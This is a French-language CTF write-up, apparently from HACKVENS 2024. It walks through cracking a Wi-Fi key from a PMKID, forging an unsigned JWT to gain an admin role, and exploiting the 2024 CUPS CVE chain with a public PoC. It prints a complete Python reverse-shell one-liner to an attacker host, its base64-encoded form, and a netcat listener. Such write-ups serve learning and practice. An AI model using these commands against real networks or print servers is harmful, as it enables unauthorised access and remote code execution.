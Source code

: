J'ai flag ce challenge lors du CTF HACKVENS 2024 à Lille. 
La description du challenge indique qu'une machine est accessible sur le réseau wifi "captaincups-wifi" à l'adresse 192.168.12.1.  

On lance le mode monitor sur notre carte wifi externe (sudo iwconfig wlan0 mode monitor) 
Ensuite on lance un aireplay-ng pour checker les réseaux autours : 

```
BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 (not associated)   3E:B0:1E:81:67:3D  -43    0 - 1      0        1                                                                           
 (not associated)   A4:97:B1:15:8E:F5  -73    0 - 6     20        4         captaincups-wifi 
```

Ensuite on nous donne également une capture wireshark avec un seul message eapol (pas le handshake complet habituel à cracker avec aircrack-ng). Néanmoins on retrouve dans le packet les infos dont on a besoin pour crack la pre shared key : 

- La PMKID
- Le SSID
- La mac de l'ap
- La mac du client 

Ensuite on trouve un script sur github pour cracker la pre-shared key avec ces infos : 

```
(PYTHON_TOOLS) eddymalou@parrot:~/Documents/CTF/HACKVENS/web$ python3 crack.py 

PMKID:                     476160903076f4d82091e345e3207f8f
SSID:                      captaincups-wifi
AP MAC Address:            00:22:6b:fb:49:2b
Client MAC Address:        00:c0:ca:62:a4:f6

Attempt crack with these settings? (y/n): y
Attempting to crack password...

e7a8005bd36ba5a9e5e0bcbd4211c51f
7412a40d38d4a8fadd8d1fa96c318458
4d4263d4ce866da5326a6622461cf5b2
0fa989dd03b2166d7acfbf3685c7ac62
d4db1b5a9b2a146c85fe90dcf2a5a40a
ea0011573095ede0f167d47eaab4e9e3
7c8129ea1cb3e0f1ea7d431d4745bf0a
... rock you go brrrrrrrrrrrrrr
0916d4be2a126c895d7a601fc41e1b4b
be2dd1e083afce2435e02fb6930e0b8c
0f0991dc41d0a911ec081e6094484ff9
974bcc37fa8c66d31ddfabcca2faee2f
3c1017956134e4c34ad4cbdf8e901df2
daa217a986f804dbeb8a3b96fe64c9c9
628af9ee99ff42dfc6c62b7967119c05
1ad47773260d02331f28cecad3da2040
7c1adb19fa060c297d70c8694be9d87c
476160903076f4d82091e345e3207f8f - Matches captured PMKID
Password Cracked!

SSID:              captaincups-wifi
Password:          blackcaptain08  
```

On peut se connecter au réseau wifi hidden avec : 

`nmcli dev wifi connect "captaincups-wifi" password "blackcaptain08" hidden yes`

Ensuite en accédant à la machine en 192.168.12.1 on arrive bien sur un serveur web avec un commentaire html : 

`<!-- TODO : Supprimer le compte par défaut user:1_a10V3_Z4Z0U -->`

Dans robots.txt on trouve les informations suivantes 

![Image robots.txt](/HACKVENS/2024/images/robots_text.png)

![Image todo.txt](/HACKVENS/2024/images/todo_text.png)

-------------------------------------------------------

Ensuite on se connecte avec le user donné via les commentaires html et on a un JWT mais la signature n'est pas vérifiée, on peut juste le modifier en changeant "user" en "supercaptain" avec jwt.io notamment : 

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJyb2xlIjoic3VwZXJjYXB0YWluIiwiZXhwIjoxNzMyMzI0NzU3fQ.imLNhfONY95-Jev-yQaG8FlCoQo1LtbbRYjSZF-qWfU
```

```
{
  "username": "user",
  "role": "supercaptain",
  "exp": 1732324757
}
```

On peut maintenant refresh là page et on arrive sur ça : 

![Page admin impression](test_impression.png)

En entrant une adresse IP, le serveur déclenche une impression vers cette dernière. Grâce au nom de la capture réseau (cups.pcap), nous comprenons qu'il faut exploiter la / les récentes CVEs sur cups.
En faisant quelques recherches on tombe sur le répo suivant avec un poc et une explication des CVEs : https://github.com/0xCZR1/PoC-Cups-RCE-CVE-exploit-chain

- **CVE-2024-47176**: Unrestricted Packet Processing on UDP Port 631, allowing unauthenticated remote attackers to force CUPS to contact an attacker's IPP server.
- **CVE-2024-47076**: Improper validation of IPP attributes in `libcupsfilters`, which allows attacker-controlled data to be processed as valid.
- **CVE-2024-47175**: Injection of malicious data into PPD files via `libppd`, allowing for command execution during print jobs.
- **CVE-2024-47177**: Command injection via `foomatic-rip`, allowing attackers to execute arbitrary commands on the system.

La première CVE (47176) est inutile dans notre cas, car nous avons directement un moyen de trigger une impression depuis la web view. Les autres néanmoins sont utiles et permettent d'obtenir une RCE. 
Nous tentons d'utiliser le POC de ce même répo mais sans succès : le port 631 de la machine cible étant fermée le printer discovery ne peut pas s'effectuer correctement. Nous trouvons un autre [PoC](https://github.com/RickdeJager/cupshax) qui lui implémente différement les CVEs : `This PoC uses dns-sd printer discovery, so the target must be able to receive the broadcast message, i.e. be on the same network. `

```
└──╼ #python3 cupshax.py --ip 0.0.0.0 --command "python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"192.168.12.45\",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"/bin/sh\")'" --port 8631
[+] Wrapping command in base64...
[+] Command: echo cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTkyLjE2OC4xMi40NSIsNDQ0NCkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZilmb3IgZiBpbigwLDEsMildO3B0eS5zcGF3bigiL2Jpbi9zaCIpJw==|base64 -d|sh
[+] Starting IPP server on 0.0.0.0:8631..
```

Ensuite on lance un `nc -lnvp 4444` et on trigger une impression depuis la webview vers notre laptop en `192.168.12.45` : 
![Payload sent](/HACKVENS/2024/images/payload_envoye.png)

On chope notre shell et un flag.txt : 
![Fake flag](/HACKVENS/2024/images/false_espoir.png)

La solve "légit" était de relancer une impression avec un wireshark qui tourne sur notre laptopt et on extrait le pdf depuis la capture dans le IPP response : 
![IPP response](/HACKVENS/2024/images/IPP_response.png)
l
Dans notre cas nous avons simplement `base64 doc/thomas-ruyant-pos.pdf` ctrl + shift + c
Et sur notre laptop `echo -n "base64 string du pdf" | base64 -d > flag.pdf`
![Real flag](/HACKVENS/2024/images/flag_final.png)

Le challenge était vraiment sympa mais seul problème les neuilles qui fuzzaient le serveur web pour rien (instance partagée qui a crashée pas mal de fois). Autre galère rencontrée : pas réussir à faire marcher le premier poc. Et je testais ma RCE avec un `python3 -m http.server 1234` en local et un payload du style `curl http://ip_laptop:1234/` mais je ne recevais rien car la machine cible n'avait pas `curl` d'installé :/

